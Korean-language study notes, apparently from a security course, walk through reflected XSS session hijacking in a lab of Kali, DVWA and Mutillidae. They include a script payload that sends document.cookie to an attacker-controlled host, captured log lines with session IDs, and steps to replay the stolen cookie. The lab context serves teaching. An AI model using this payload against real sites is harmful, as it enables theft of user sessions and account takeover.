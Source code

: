 # Wireshark
패킷 캡쳐 프로그램
<br><br><br><br>

# Reflected XSS
- 특정한 피해자를 대상으로 함
- 웹 서버에 XSS가 남는 것은 아님

실습 방법
1. 칼리에 웹서버를 설치 후 `tail -f` 로 로그파일 모니터링 시작
2. 윈도우에서 DVWA에 `admin:password` 로 로그인 한 뒤 XSS reflected에 아래 내용 입력
``` js
<script>document.location='http://192.168.60.128/cookie?'+document.cookie</script>
```
3. 윈도우에서 `404 Not Found` 가 보임과 동시에 칼리에서는 쿠키 정보로써 세션을 탈취한 아래 내용이 보임

`192.168.60.1 - - [09/Apr/2021:17:18:51 +0900] "GET /cookie?security=low;%20PHPSESSID=48b916e85b42330e04852ff049d5f064 HTTP/1.1" 404 188 "http://192.168.60.129/" "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/89.0.4389.114 Safari/537.36"`

4. 칼리에서 DVWA에 `pablo:letmein` 또는 `smithy:password` 로 로그인
5. Cookie Editor 에서 `PHPSESSID` 를 로그 파일의 내용으로 변경
6. 새로고침 하면 왼쪽 아래에 Username 이 admin 으로 된 것을 볼 수 있음
7. 윈도우에서 로그인 된 admin 을 로그아웃 한 후 칼리에서 새로고침 하면 세션이 끊겨서 같이 로그아웃 되는 것을 볼 수 있음
<br><br><br><br>

# Stored XSS
- 임의의 다수를 대상으로 함
- ‘Stored’ 단어처럼 웹서버에 XSS를 저장해서 남김
<br><br><br><br>

# OWASP Top 10
특정 해마다 웹 취약점 중에서 빈도가 많고 보안상 영향을 크게 주는 10가지를 선정해서 발표됨
이 취약점들을 `Mutillidae` 에서 실습 해볼 것임
<br><br><br><br>

# Mutillidae
시작하기에 앞서 `Metasplotiable2` 운영체제의 루트 권한으로 `/var/www/multillidae/config.inc` 파일을 아래 내용에 맞춰 수정하자.
``` php
$dbname = 'owasp10';
```
이로써 데이터베이스가 정상 연결되어 회원가입 등이 원할하게 사용된다.

아까와 같이 `XSS` 실습을 `Mutillidae` 에서 해보자.

1. 칼리에서 `tail -f /var/log/nginx/access.log` 로 로그 모니터링
2. 윈도우에서 `test:test` 회원가입 후 로그인
3. `OWASP Top 10` > `A2 (XSS)` > `Reflected` > `DNS Lookup` 에서 아까와 같은 스크립트를 실행하면 아래와 비슷한 로그 확인

`192.168.60.1 - - [09/Apr/2021:18:07:39 +0900] "GET /cookie?username=test;%20uid=17;%20PHPSESSID=2aae495d56711c667e53e602925e5876 HTTP/1.1" 404 188 "http://192.168.60.129/" "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/89.0.4389.114 Safari/537.36"`

4. 쿠키 값으로 `username` / `uid` / `PHPSESSID` 가 보이는데 이것을 칼리 Cookie Editor 로 전부 입력 후 새로고침
5. 왼쪽 상단에 `Logged In User` 가 `test` 인것을 확인할 수 있음

만약 재현을 하려고 윈도우와 칼리에서 웹 브라우저 주소창 왼쪽의 좌물쇠 모양을 누르고 쿠키들을 모두 지워주면 된다.
